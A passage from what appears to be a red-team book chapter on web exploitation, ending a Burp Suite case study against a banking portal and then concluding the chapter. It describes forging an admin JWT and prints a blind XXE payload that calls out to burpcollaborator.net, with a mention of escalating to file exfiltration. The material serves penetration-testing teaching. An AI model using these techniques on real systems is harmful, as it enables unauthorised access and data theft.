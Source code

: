 5. **Finding Authentication Bypass**:
   ```bash
   # Using Comparer, analyzed successful vs. failed login responses
   # Identified JWT tokens with weak signature validation
   
   # Using JWT Editor extension, forged administrator tokens
   # Modified payload: {"role": "admin", "user_id": 1}
   # Gained administrative access to the banking portal
   ```

6. **Demonstrating Impact with Collaborator**:
   ```bash
   # Identified blind XXE vulnerability in document upload feature
   # Created malicious XML with Collaborator payload:
   
   <?xml version="1.0" encoding="UTF-8"?>
   <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://burpcollaborator.net/"> ]>
   <document>
     <metadata>
       <author>&xxe;</author>
     </metadata>
   </document>
   
   # Received callback confirming server-side request
   # Escalated to exfiltrate sensitive files
   ```

This example demonstrates how Burp Suite Professional enables a comprehensive assessment approach, combining automated scanning with manual exploitation techniques to identify critical vulnerabilities.

## Conclusion

Web application exploitation remains a critical skill for red teams, as web applications continue to be one of the most accessible and vulnerable entry points into organizations. The tools covered in this chapter provide a comprehensive arsenal for identifying and exploiting common web vulnerabilities.

From SQL injection with SQLmap to command injection with Commix, XSS attacks with XSSer, and comprehensive testing with Burp Suite, these tools enable red teamers to demonstrate the real-world impact of web application vulnerabilities. The practice environment provided by OWASP Juice Shop offers a safe space to develop and refine these exploitation techniques.

When conducting web application assessments, remember that the most effective approach combines automated tools with manual testing and creative thinking. Many of the most impactful vulnerabilities are found at the intersection of technical flaws and business logic issues, requiring both technical expertise and a deep understanding of the application's purpose and functionality.

In the next chapter, we'll explore privilege escalation techniques that can be used after initial access has been gained through web application vulnerabilities or other entry points, allowing red teams to elevate their access and move deeper into target environments.
